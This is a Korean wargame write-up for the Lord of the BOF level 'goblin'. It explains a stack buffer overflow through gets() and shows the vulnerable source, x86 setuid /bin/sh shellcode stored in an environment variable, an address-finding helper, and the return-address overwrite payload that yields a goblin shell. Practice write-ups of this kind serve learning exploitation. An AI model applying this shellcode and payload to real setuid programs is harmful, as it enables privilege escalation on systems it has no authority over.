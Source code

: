 ```yaml
---
title: LOB 3번 Write-up
date: 2017-9-3 15:42:00
categories: LOB
tags: LOB, cobolt, goblin
---
```


## LOB 3번

    [cobolt@localhost cobolt]$ ls -l
    total 16
    -rwsr-sr-x    1 goblin   goblin      11824 Feb 26  2010 goblin
    -rw-r--r--    1 root     root          193 Mar 29  2010 goblin.c
    [cobolt@localhost cobolt]$ cat goblin.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - goblin
            - small buffer + stdin
    */
    
    int main()
    {
        char buffer[16];
        gets(buffer);
        printf("%s\n", buffer);
    }

참고를 위해 LOB 2번 문제인 cobolt의 소스도 아래에 올려두었다.

    [gremlin@localhost gremlin]$ cat cobolt.c
    int main(int argc, char *argv[])
    {
        char buffer[16];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

### 입력방식의 차이

두 프로그램은 문자열을 받아오는 방식에 있어서 서로 다르다. 이전의 문제에서는 `strcpy`를 통해 실행과 동시에 전달받은 문자열을 복사한 후 저장하였으나, 이번 문제에서는 프로그램 실행 후 `gets()`를 통해 문자열을 받아오는 것이다. 아래의 경우를 보며 확인해보자.

    [cobolt@localhost cobolt]$ ./goblin `python -c 'print"a"*21'`
    hello
    hello

argc값을 받아오지 않기 때문에 위처럼 python으로 전달한 값은 무시되고 `gets()`로 입력한 값인 'hello'만 받아온다. 그렇다고 쉘코드를 직접 입력해줘야하는 것은 아니다. 아래와 같이 FTZ 3번 문제에서 배운 대로 세미콜론을 사용하고, 괄호와 파이프를 적절히 조합하면 값을 전달할 수 있다.

    (python -c 'print "A"*21';cat)|./goblin

python으로 값을 출력한 다음, 표준 입력을 표준 출력으로 바꿔주는 역할을 하는 `cat`명령어로 값을 넘겨주도록 했다. 세미콜론은 한줄에 명령어를 여러개 입력할때 사용한다는 점에서 파이프와 비슷하지만 파이프의 경우 앞에서 나온 결과값을 뒤의 명령에서 사용한다는 점이 대조된다. 그리고 나서 앞의 결과를 파이프가 goblin에게 넘겨준다.

### 쉘코드
    
    [cobolt@localhost cobolt]$ export shell = `python -c 'print "\x31\xc0\xb0\x31\xc                                      d\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x6                                      8\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
    [cobolt@localhost cobolt]$ vi addr.c
    #include<stdio.h>
    int main(){
            printf("%#p \n", getenv("shell"));
    return 0;
    }
    [cobolt@localhost cobolt]$ gcc -o addr addr.c
    [cobolt@localhost cobolt]$ ./addr
    0xbfffff1c

참고로 메모리구조는 이전과 같다.

buffer(16byte)	|	SFP(4byte)	|	RET(4byte)

    [cobolt@localhost cobolt]$ ./addr
    0xbffffb34
    [cobolt@localhost cobolt]$ (python -c 'print "A"*16 + "\x90"*4 + "\x34\xfb\xff\xbf"';cat)|./goblin
    AAAAAAAAAAAAAAAA4ûÿ¿
    id
    uid=503(goblin) gid=502(cobolt) egid=503(goblin) groups=502(cobolt)
    my-pass
    euid = 503
    hackers proof

문제 소스는 비슷한데, 원리를 찾아보고 하니 생각보다 어려워진다.